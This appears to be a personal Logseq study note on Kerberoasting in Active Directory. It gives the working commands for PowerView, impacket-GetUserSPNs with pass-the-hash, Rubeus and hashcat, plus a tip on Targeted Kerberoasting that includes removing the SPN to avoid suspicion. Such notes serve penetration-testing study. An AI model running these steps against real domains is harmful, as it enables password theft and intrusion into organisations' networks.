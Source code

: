 public:: true

- In case a [SPN](((655e0fad-5b48-42ce-b82a-09cd0e4a9322))) is associated to an AD user account instead of an AD computer account, then the service instance that SPN is registered for **will be run in the context of that user**.
- #+BEGIN_NOTE
  As opposed to *[AD computer account](((655e3185-f921-4b07-bb00-e397a2486fc6)))*, the *AD user account* password might be bruteforced.
  #+END_NOTE
- When the KDC returns a [TGS-REP](((655b6438-ee0f-4168-8a40-754613d2b793))) it also returns [some information](((655a24c7-b91e-4a45-8468-c565395f566e))) encrypted with the password of user associated to the SPN.
- The Kerberoasting attack consist on targeting services ran by AD user account.
	- Search for services ran by AD user accounts
	  logseq.order-list-type:: number
	- File TGS-REQs against the KDC for found services
	  logseq.order-list-type:: number
	- Retrieve TGS-REPs
	  logseq.order-list-type:: number
		- The KDC always return a TGS-REP (if we can file a TGS-REQ from a domain user) beacuse no checks are performed to confirm whether we have any permissions to access the service hosted by the SPN. These checks are performed as a second step [only when connecting to the service itself](((655b6438-6055-4038-b37b-457c7b623610))).
	- Try to bruteforce TGS-REPs offline to retrieve the AD user account password
	  logseq.order-list-type:: number
	- Loot
	  logseq.order-list-type:: number
- id:: 655e327e-5e4b-4260-828e-33941dad976c
  #+BEGIN_TIP
  In case we have **GenericWrite** or **GenericAll** permissions on another AD user account. We could reset the user's password but *this may raise suspicion*. However, we could also [set an SPN](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc731241(v=ws.11)) for the user, kerberoast the account, and crack the password hash in an attack named **Targeted Kerberoasting**.
  
  Do not forget to delete the SPN once we've obtained the hash!
  #+END_TIP
- Retrieve the list of SPNs associated to AD users accounts.
  *(Kerberoastable users)*
	- #+BEGIN_TIP
	  We know that a user account is being used to run a service because his `ServicePrincipalName` property is not null.
	  #+END_TIP
	- From Windows with PowerView
	  id:: 655e1f7d-ff2f-48b3-b240-c888d0cfb1b1
		- id:: 655e2029-2d0e-476f-9c58-c69ce7906fa7
		  ```powershell
		  # List any service principals associated with an AD user account
		  Get-NetUser -SPN | select samaccountname,serviceprincipalname
		  ```
	- From Linux with [[GetUserSPNs]]
		- id:: 655e2491-e204-4c69-859d-53d7425c4419
		  ```bash
		  # List any service principals associated with an AD user account
		  impacket-GetUserSPNs -dc-ip domain-controller-ip 'domain.tld/username:password'
		  
		  # List any service principals associated with an AD user account (Pass-the-Hash)
		  impacket-GetUserSPNs -dc-ip domain-controller-ip -hashes lm-hash:nt-hash 'domain.tld/username'
		  ```
- #+BEGIN_PINNED
  Kerberoasting [tools](https://blog.harmj0y.net/redteaming/kerberoasting-revisited/) typically request **RC4** encryption when performing the attack and initiating TGS-REQ requests.
  
  This is because RC4 is [weaker](https://www.stigviewer.com/stig/windows_10/2017-04-28/finding/V-63795) and easier to crack offline using tools such as [[Hashcat]] than other encryption algorithms such as AES-128 and AES-256.
  
  *RC4 (type 23)* hashes begin with `$krb5tgs$23$*` while *AES-256(type 18)* start with `$krb5tgs$18$*`.
  #+END_PINNED
- Retrieve TGS-REPs for Kerberoastable users
	- From Windows with [[Rubeus]]
	  id:: 655e28cb-6916-4e6a-acbf-448824638693
		- This tool search for SPNs associated with with AD user accounts and request TGS-REP accordingly.
		- It needs to be ran from compromised windows machine in the context of an domain user.
		- ```powershell
		  .\Rubeus.exe kerberoast /tgtdeleg /outfile:hashes.kerberoast
		  ```
			- If the `/tgtdeleg` flag is supplied, the [tgtdeleg](https://github.com/GhostPack/Rubeus/tree/1155140b15008259be4fb05b7c28fc03e807a626#tgtdeleg) trick it used to get a usable TGT for the current user, which is then used for the roasting requests. If this flag is used, accounts with AES enabled in msDS-SupportedEncryptionTypes will have RC4 tickets requested. More info [here](https://blog.harmj0y.net/redteaming/kerberoasting-revisited/).
	- From Linux with [[GetUserSPNs]]
	  id:: 655e2ce7-cc6b-42f9-8adf-a6e93a8956dd
		- ```bash
		  impacket-GetUserSPNs -request -dc-ip 192.168.50.70 -outputfile hashes.kerberoast corp.com/pete
		  ```
		- `-request` - is specified to request the [TGS-REP](((655b6438-ee0f-4168-8a40-754613d2b793))).
		- `-dc-ip` - The KDC (domain controller) IP
		- `corp.com/pete` - is the domain user from where we can query the DC. We'll need to input his password.
		- `-outputfile hashes.kerberoast` - file to save captured hashes.
- Crack **Kerberos 5 TGS-REP** hashes via [[Hashcat]] with the [`-m 13100`](https://hashcat.net/wiki/doku.php?id=example_hashes) option.
  id:: 655e2b6a-bc1a-494a-86e2-c23880ba612c
  ```bash
  sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt \
  	-r /usr/share/hashcat/rules/best64.rule --force
  ```
	- `-m 13100` - specifies the correct mode
	- `hashes.kerberoast` - is the file with the hashes, as it was output by `impacket-GetNPUsers` or `Rubeus`
	- `rockyou.txt` - the wordlist we want to use
	- `best64.rule` - the rules to apply to the wordlist
	- `--force` - to run `hashcat` in Kali